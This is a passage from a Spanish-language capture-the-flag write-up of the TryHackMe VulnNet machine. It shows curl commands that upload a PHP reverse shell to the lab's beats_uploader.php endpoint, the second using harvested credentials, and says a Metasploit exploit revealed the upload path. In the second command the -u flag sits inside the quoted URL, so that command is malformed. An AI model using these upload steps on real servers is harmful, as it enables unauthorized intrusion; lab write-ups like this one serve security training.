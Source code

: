 como podemos solo modifique en la shell mi ip y un puerto al que se conectara, asi que ahora probe el comando curl que viene en el exploit

```bash
curl -F "file=@shell.php" -F "plupload=1" -F "name=shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"
```
<p align="center">
<img src="/assets/images/writeup-maquina-thm-vulnet/2021-04-18_13-59.png">
</p>

que mal al utilizar dicho comando me sale un error, el mensaje dice algo como que el servidor no encuentra que este autorizado para realizar dicha solicitud, asi viendo los comandos de curl probe agregar las credenciales que encontre y con las que me autentifique en dicha web

```bash
curl -F "file=@shell.php" -F "plupload=1" -F "name=shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php -u developers:9972761drmfsls"
```
<p align="center">
<img src="/assets/images/writeup-maquina-thm-vulnet/2021-04-18_14-06.png">
</p>

genial, nos salio como respuesta que se subio nuestra shell, ahora me tarde viendo donde encuentro dicha shell jaja. pero revisando un exploit de metasploit pude encontrar la ruta

<p align="center">
<img src="/assets/images/writeup-maquina-thm-vulnet/2021-04-18_14-11.png">
</p>
